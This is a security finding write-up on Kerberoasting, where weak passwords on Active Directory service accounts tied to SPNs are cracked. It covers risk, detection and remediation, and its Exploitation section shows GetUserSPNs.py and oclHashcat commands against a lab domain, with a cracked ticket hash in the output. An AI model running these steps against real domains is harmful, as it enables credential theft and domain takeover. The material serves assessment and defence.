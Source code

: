 /*
Title: Weak SPN Password
Description: Crackable password attached to SPN
*/

- LAST UPDATED DATE: 2016/05/25
- LAST UPDATED BY: @mubix

## Summary

Service Principal Names (SPNs) are a Microsoft way of desinating and identifying where services are running in a domain. These SPNs are attached to accounts within active directory. Any Domain User has the ability to lookup these attributes and request access to the service they provide. The Active Directory Domain Controller will issue the user requesting access to the service a Kerberos ticket. This ticket includes in it the encrypted and hashed password for the user the service is running under. Microsoft does this to allow access in the process of that service.

Example SPN Kerberos Tickets:

```
Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : http/win10.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-7856e72a-2c40-4d94-a939-8c671b80e2bd-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKe
                       y}
ValidFrom            : 5/19/2016 3:06:41 PM
ValidTo              : 5/20/2016 12:53:24 AM
ServicePrincipalName : MSSQLSvc/WIN2K8R2.sittingduck.info
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

## Capabilities and Risk

An attacker can use the SPN services to request tickets for all of the SPNs listed in the domain and attempt to crack the passwords for all of the users the services are running under. If the SPN services are running under a user context, and the attacker is able to brute force crack the password for that user, the attacker can then utilize that password in any way that user has permissions for.

- Acquire list of services running on a particular host
- Acquire Kerberos tickets with the context of the user running the service
- Compromise a domain based on the level of the user running the SPN service (Domain Admin accounts have been used to run Services in the past)

## Detection

Because this is standard usage of Active Directory it blends into normal daily traffic. Windows Advanced Threat Analytics (ATA) has a module that includes detection of large numbers of SPN Kerberos ticket requests. The other useful detection mechanism is to detect any time a service account is used outside of the machine to which it is assigned.

## Remediation

- Use Managed Service Accounts if possible. They are automatically restricted to a single machine (will not work for cluster services), and change their password on a regular basis much like computer accounts.
- Insure that any service accounts have long, strong passwords (20 character+)

## References

- [Service Principal Names](https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85%29.aspx)
- [Managed Service Accounts](https://technet.microsoft.com/en-us/library/dd560633(v=ws.10%29.aspx)
- [Cracking Kerberos TGS Tickets Using Kerberoast - Exploiting Kerberos to Compromise the Active Directory Domain - Sean Metcalf - ADSecurity.org](https://adsecurity.org/?p=2293)

## Exploitation

Acquire list of SPNs and request them using Impacket's GetUserSPNs.py example script:
```
root@wpad:~/impacket/examples# ./GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin
Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies

Password:
ServicePrincipalName                Name        MemberOf                                          PasswordLastSet
----------------------------------  ----------  ------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01         
```

Crack the service ticket password using oclHashcat:
```
root@sf:~/oclHashcat# ./oclHashcat -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l 
oclHashcat v2.01 (g0891e39) starting...

Device #1: Hawaii, 2858/4025 MB allocatable, 1010Mhz, 44MCU
Device #2: AMD FX(tm)-8120 Eight-Core Processor, skipped

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Applicable Optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c

Device #1: Kernel /root/git/oclHashcat/kernels/m13100_a3.919aa8b9.kernel (234320 bytes)
Device #1: Kernel /root/git/oclHashcat/kernels/markov_le.919aa8b9.kernel (36184 bytes)

Device #1: autotuned kernel-accel to 64
Device #1: autotuned kernel-loops to 50

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit =>

$krb5tgs$23$*user$realm$test/hashcat*$08e2261b7a89e56f530b2f7e0620fe8b$ecdca97c13814c95810d7706faf986dad98d06ba033fc5a45fbe9b417b855db5:hashcat

Session.Name...: oclHashcat
Status.........: Cracked
Input.Mode.....: Mask (?l?l?l?l?l?l?l) [7]
Hash.Target....: $krb5tgs$23$*user$realm$test/hashcat*$08e...
Hash.Type......: Kerberos 5 TGS-REP etype 23
Time.Started...: Wed Feb 17 08:33:57 2016 (5 secs)
Speed.Dev.#1...:   111.0 MH/s (80.83ms)
Recovered......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.......: 252313600/8031810176 (3.14%)
Rejected.......: 0/252313600 (0.00%)
Restore.Point..: 0/456976 (0.00%)
HWMon.GPU.#1...:  0% Util, 42c Temp, 20% Fan

Started: Wed Feb 17 08:33:57 2016
Stopped: Wed Feb 17 08:34:04 2016
```
